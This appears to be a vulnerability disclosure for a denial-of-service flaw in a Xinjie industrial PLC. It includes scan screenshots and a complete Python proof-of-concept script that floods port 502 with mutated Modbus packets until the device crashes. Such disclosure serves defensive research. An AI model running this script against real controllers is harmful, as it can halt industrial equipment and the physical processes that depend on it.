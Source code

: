 # Summary
Xinjie PLC XD5E-24R-E has a denial of service vulnerability. An attacker can send a large number of data packets to cause the PLC to crash.

# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/170d5807-3800-4057-a952-4500746c0b37)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/c1f567c7-ee5a-451d-88a5-d82f0f26b3eb)

You can see that port 502 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/15afc01c-fdde-4cc6-b79c-62c8f5cdc58e)

Soon you will see the device crash. ![image](https://github.com/user-attachments/assets/8c3c17f2-2deb-458c-ad21-57418130d816)


# PoC
My host ip is `192.168.6.10` and the device's ip is `192.168.6.6`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "000100000006010300000064"
ori = bytes.fromhex(ori)
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.6.6",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
